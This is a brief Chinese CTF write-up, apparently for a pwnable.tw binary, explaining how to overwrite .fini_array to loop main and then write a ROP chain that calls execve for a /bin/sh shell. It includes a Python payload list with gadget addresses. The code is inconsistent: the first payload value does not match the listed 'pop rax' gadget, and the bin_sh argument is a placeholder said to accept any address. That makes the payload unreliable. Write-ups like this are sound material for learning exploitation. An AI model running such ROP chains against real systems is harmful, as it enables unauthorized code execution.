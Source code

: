 查看\_\_libc_csu_fini源码，可知__fini_array中的函数是逆序调用的。

one_gadget查看程序并没有找到 “/bin/sh” 或者后门函数，需要构造ROP。

![image-20220412200544687](pwnabletw.assets/image-20220412200544687.png)

查看.fini_array段，发现存在两个函数。将fini_array[1]修改成main函数，fini_array[0]改为libc_csu_fini函数，即可实现循环调用main。

![image-20220412201246085](pwnabletw.assets/image-20220412201246085.png)

之后就可以无限次数任意内容写入，从而构造ROP

```python
bin_sh = 随便一个地址都行
payload = [0x0805c34b,0x3b,0x000406c30,0,0x00446e35,0,0x0401696,bin_sh,0x00471db5]

'''
0x000000000041e4af : pop rax ; ret
0x0000000000401696 : pop rdi ; ret
0x0000000000406c30 : pop rsi ; ret
0x0000000000446e35 : pop rdx ; ret
0x0000000000471db5 : syscall ; ret
'''
```

然后需要考虑的就是如何获取栈位置写入ROP，之后再写入劫持指令地址到fini_array[0]来打破main-libc_csu_fini循环跳转更改栈顶即可。

![image-20220413101651137](pwnabletw.assets/image-20220413101651137.png)
